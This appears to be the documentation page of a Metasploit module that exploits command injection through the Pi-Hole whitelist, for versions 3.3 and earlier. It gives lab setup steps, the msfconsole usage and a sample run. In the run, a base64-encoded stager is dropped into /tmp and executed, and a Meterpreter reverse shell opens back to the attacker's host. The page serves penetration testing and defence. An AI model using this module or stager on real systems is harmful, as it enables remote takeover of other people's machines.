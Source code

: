 ## Vulnerable Application

This exploits a command execution vulnerability in Pi-Hole <= 3.3. When adding a 
new domain to the whitelist, it is possible to chain a command to 
the domain that is run on the OS.

### Setup

Install Pi-Hole [Pi-Hole 3.2.1](https://github.com/pi-hole/pi-hole/releases/tag/v3.2.1)
with the following commands:

```
sudo git clone --depth=1 -b v3.2.1 https://github.com/pi-hole/pi-hole.git /etc/.pihole
# replace 'git clone' with 'git clone -b v3.2.1'
sudo nano /etc/.pihole/automated\ install/basic-install.sh
sudo /etc/.pihole/automated\ install/basic-install.sh
```

Pi-Hole attempts to install the latest versions of the software.  Modifying the git clone
command will force it to install the old AdminLTE and Pi-Hole versions.  However this
will make FTL fail to install.

Answer everything with the default.

Lastly, we need to create one file which wasn't made.

```
sudo touch /etc/pihole/GitHubVersions
```

This will be enough to make it exploitable, however the dashboard won't fully work since some
other components were installed which are too new for it to work with.

If you wish to install FTL, follow the [directions](https://docs.pi-hole.net/ftldns/compile/).
However, when cloning the FTL repo, add the flag `-b v2.13.1` to pull an age appropriate version.
Also, the service may not install correctly.  However simply running `sudo /usr/bin/pihole-FTL`
will start it successfully.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_whitelist_exec```
  4. Do: ```set rhosts```
  5. Do: ```run```
  6. You should get a shell.

## Options

### Password

Password for the web interface.  Randomly set on install.  Use `pihole -a -p` to change/remove it.

## Scenarios

### Pi-Hole 3.2.1 with AdminLTE 3.2.1 on Ubuntu 18.04

  ```
  msf > use exploit/unix/http/pihole_whitelist_exec 
  msf exploit(unix/http/pihole_whitelist_exec) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf exploit(unix/http/pihole_whitelist_exec) > set verbose true
  verbose => true
  msf exploit(unix/http/pihole_whitelist_exec) > run
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Version Detected: 3.2.1
  [*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKgCgGgCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/DaQVx.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/QUFVT' < '/tmp/DaQVx.b64' ; chmod +x '/tmp/QUFVT' ; '/tmp/QUFVT' ; rm -f '/tmp/QUFVT' ; rm -f '/tmp/DaQVx.b64'"]
  [*] Using cookie: PHPSESSID=j8o7g4m3e30279850hi275mqhk;
  [*] Using token: OoSESvgJJEWq7mvYBEOJaa/6jyA0GRy56pRZvy93IlU=
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (980808 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:44212) at 2020-05-13 23:25:19 -0400
  [*] Command Stager progress - 100.00% done (763/763 bytes)
  
  meterpreter > getuid
  Server username: no-user @ ubuntu1804 (uid=33, gid=33, euid=33, egid=33)
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 18.04 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
